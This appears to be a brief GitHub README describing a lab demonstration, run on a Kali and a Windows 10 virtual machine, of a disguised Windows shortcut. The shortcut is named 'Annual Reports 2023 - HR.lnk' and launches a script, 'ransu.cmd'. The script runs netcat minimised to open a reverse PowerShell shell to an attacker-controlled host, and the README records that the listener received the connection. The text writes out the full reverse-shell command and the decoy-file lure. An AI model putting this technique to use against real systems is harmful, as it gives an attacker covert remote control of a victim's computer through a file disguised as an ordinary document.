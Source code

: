 Demo was made using 2 virtual machines:
- Kali Linux
- Windows 10

Structure:   
Annual Reports 2023 - HR.lnk -> Linked to ransu.cmd
ransu.cmd:   
```bash
start /min nc64.exe <attacker ip> <attacker port> -e powershell
```

Both were assigned to the same internal network, and the IP-address of the attacker machine was placed as a static in the payload command.   

When the "folder"(shortcut) was opened, the payload was ran using netcat and the attacker, where the listener was, got the connection.   

[Revshell Demo](https://youtu.be/8v6djrHg2qI)